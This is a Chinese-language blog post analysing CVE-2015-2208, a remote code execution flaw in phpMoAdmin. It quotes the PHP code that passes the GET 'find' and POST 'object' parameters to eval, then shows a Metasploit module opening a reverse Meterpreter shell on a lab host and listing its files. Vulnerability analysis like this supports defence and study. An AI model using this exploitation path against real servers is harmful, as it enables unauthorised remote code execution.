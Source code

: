 ```yaml
---
layout: post
title: phpMoadmin CVE-2015-2208 远程代码执行漏洞分析
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**phpMoAdmin 是一个用PHP 开发的在线MongoDB 管理工具，可用于创建、删除和修改数据库和索引，提供视图和数据搜索工具，提供数据库启动时间和内存的统计，支持JSON 格式数据的导入导出。**

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/65ehrtdfgx.png">

>/phpmoadmin/moadmin.php 第555行

    public function listRows($collection) {
        foreach ($this->sort as $key => $val) { //cast vals to int
            $sort[$key] = (int) $val;
    }
    $col = $this->mongo->selectCollection($collection);
    $find = array();
	if (isset($_GET['find']) && $_GET['find']) {
		$_GET['find'] = trim($_GET['find']);
		if (strpos($_GET['find'], 'array') === 0) {
			eval('$find = ' . $_GET['find'] . ';');
		} else if (is_string($_GET['find'])) {
			if ($findArr = json_decode($_GET['find'], true)) {
				$find = $findArr;
			}
		}
	}

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**在这个`listRows`方法中，eval执行GET接收的`find`参数，首先`$find`变量初始化为数组，而且通过strpos判断传入的值是否为数组。看看哪里调用了这个方法。**

>/phpmoadmin/moadmin.php 第836行

	if (isset($_GET['collection']) && $action != 'listCollections' && method_exists(self::$model, $action)) {
        $this->mongo[$action] = self::$model->$action($_GET['collection']);
        $this->mongo['count'] = self::$model->count;
        $this->mongo['colKeys'] = self::$model->colKeys;
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**首先需要设置`collection`，根据`$action`跟踪到第785行，这里就可以通过`action`接收`listRows`参数来调用`listRows`方法。**

	$action = (isset($_GET['action']) ? $_GET['action'] : 'listCollections');

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**整体触发漏洞的逻辑就是首先通过`action`接收`listRows`，调用这个方法后，eval就会执行`$find`传入的值。由于过滤不严，即可执行传入的任意恶意代码。**

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/r67jtydhrgdfs.png">

>/phpmoadmin/moadmin.php 第693行

	public function saveObject($collection, $obj) {
        eval('$obj=' . $obj . ';'); //cast from string to array
        return $this->mongo->selectCollection($collection)->save($obj);
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**`saveObject`函数中eval执行了形参$obj，找找哪里调用了这个函数。**

>/phpmoadmin/moadmin.php 第786行

	if (isset($_POST['object'])) {
            if (self::$model->saveObject($_GET['collection'], $_POST['object'])) {
                return $this->_dumpFormVals();
            } else {
                $action = 'editObject';
                $_POST['errors']['object'] = 'Error: object could not be saved - check your array syntax.';
            }
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**开头检查POST是否传输了`object`，随后内包含的if进行判断，这个过程即调用了当前类的`saveObject`方法，POST传入`object`参数的值带入eval后就造成了代码执行。**

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/Screen%20Shot%202016-03-06%20at%2012.24.03%20AM.png">

>Msf也已经更新了此漏洞的Exploit:

	msf > use exploit/multi/http/phpmoadmin_exec
	msf exploit(phpmoadmin_exec) > show options
	
	Module options (exploit/multi/http/phpmoadmin_exec):
	Name       Current Setting  Required  Description
	----       ---------------  --------  -----------
	Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
	RHOST                       yes       The target address
	RPORT      80               yes       The target port
	SSL        false            no        Negotiate SSL/TLS for outgoing connections
	TARGETURI  /                yes       The URI path of the PHPMoAdmin page
	VHOST                       no        HTTP server virtual host
	
	Exploit target:
	
	Id  Name
	--  ----
	0   PHPMoAdmin
	
	msf exploit(phpmoadmin_exec) > set RHOST 172.16.20.136
	RHOST => 172.16.20.136
	msf exploit(phpmoadmin_exec) > set TARGETURI /phpmoadmin
	TARGETURI => /phpmoadmin
	msf exploit(phpmoadmin_exec) > exploit
	
	[*] Started reverse TCP handler on 172.16.20.1:4444
	[*] Executing payload...
	[*] Sending stage (33684 bytes) to 172.16.20.136
	[*] Meterpreter session 1 opened (172.16.20.1:4444 -> 172.16.20.136:33492) at 2015-03-05 22:34:56 +0800
	
	meterpreter > ls
	Listing: /php/www/phpmoadmin
	=================================
	
	Mode              Size    Type  Last modified              Name
	----              ----    ----  -------------              ----
	100644/rw-r--r--  31713   fil   2015-03-05 21:42:58 +0800  LICENSE
	100644/rw-r--r--  5078    fil   2015-03-05 21:42:58 +0800  README.textile
	100644/rw-r--r--  1858    fil   2015-03-05 21:42:58 +0800  change.log
	100644/rw-r--r--  111430  fil   2015-03-05 21:42:58 +0800  moadmin.php